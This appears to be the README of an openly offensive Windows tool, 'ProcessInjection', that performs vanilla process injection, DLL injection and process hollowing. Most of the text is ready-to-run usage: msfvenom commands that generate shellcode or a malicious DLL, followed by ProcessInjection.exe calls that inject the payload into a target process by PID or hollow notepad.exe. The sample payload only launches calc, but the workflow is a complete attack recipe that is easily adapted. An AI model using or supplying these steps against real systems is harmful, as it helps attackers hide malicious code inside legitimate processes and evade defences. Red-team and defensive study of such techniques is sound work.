 # ProcessInjection

----

The program is designed to perform process injection.
Currently the tool supports 3 process injection techniques.

	1) Vanila Process Injection
	2) DLL Injection
	3) Process Hollowing

Vanila Process Injection and Process Hollowing
Currently the program accepts shellcode in 3 formats 

	1) base64
	2) hex
	3) C

### Command Line Usage

	Generating shellcode in base64 format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b ""\x00"" | base64
	ProcessInjection.exe /pid:123 /path:""C:\Users\User\Desktop\shellcode.txt"" /f:base64 /t:1

	Generating shellcode in hex format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b ""\x00"" -f hex
	ProcessInjection.exe /pid:123 /path:""C:\Users\User\Desktop\shellcode.txt"" /f:hex /t:1

	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b ""\x00"" -f c
	ProcessInjection.exe /pid:123 /path:""C:\Users\User\Desktop\shellcode.txt"" /f:c /t:1

	DLL Injection
	Generating DLL and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b ""\x00"" -f dll > Desktop/calc.dll
	ProcessInjection.exe /pid:123 /path:""C:\Users\User\Desktop\calc.dll"" /t:2
	
	Process Hollowing
	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b ""\x00"" -f c
	ProcessInjection.exe /ppath:""C:\Windows\System32\notepad.exe"" /path:""C:\Users\User\Desktop\shellcode.txt"" /f:c /t:3


### Blog Post

[https://3xpl01tc0d3r.blogspot.com/2019/08/process-injection-part-i.html](https://3xpl01tc0d3r.blogspot.com/2019/08/process-injection-part-i.html)
[https://3xpl01tc0d3r.blogspot.com/2019/09/process-injection-part-ii.html](https://3xpl01tc0d3r.blogspot.com/2019/09/process-injection-part-ii.html)


### Contribution Credit

[Renos](https://twitter.com/r3n_hat)
